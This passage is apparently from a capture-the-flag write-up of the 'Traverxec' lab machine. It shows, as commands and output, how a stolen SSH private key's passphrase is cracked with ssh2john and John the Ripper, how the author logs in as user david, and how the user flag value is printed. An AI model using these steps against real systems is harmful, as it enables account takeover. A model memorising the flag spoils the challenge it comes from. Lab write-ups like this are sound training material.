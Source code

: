 and now we have a `*.tar` file, which we can unzip again.

```sh
$tar -xvf backup-ssh-identity-files.tar
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub

```

Great, rsa keys. Can we directly connect with it or does it require a passphrase:

```sh
$ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa':
```

hum... passphrase, we are now certain that it is indeed david's rsa key. What we can do now is try and crack the passphrase using john. So what we first need to do, is convert the ssh file in a john friendly format. After which we can crack.

```sh
$/usr/share/john/ssh2john.py id_rsa > id_rsa.john
```

and now we crack

```sh
$john id_rsa.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 5 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
hunter           (id_rsa)
Proceeding with incremental:ASCII
1g 0:00:00:14  3/3 0.07127g/s 739373p/s 739373c/s 739373C/s 030n11..030n24
hunter           (id_rsa)
Session aborted
```

Ok, it worked, though john spewed out a lot of lines and the password twice. I forced quit the thing because it wouldn't stop even though we found the hash. Anyway, we got the ssh passphrase `hunter`. Let's try to reconnect

```sh
$ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa':
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Wed Mar 25 17:25:44 2020 from 10.10.14.11
david@traverxec:~$ whoami
david
david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~$ cat user.txt
7db0b48469606a42cec20750d9782f3d
```
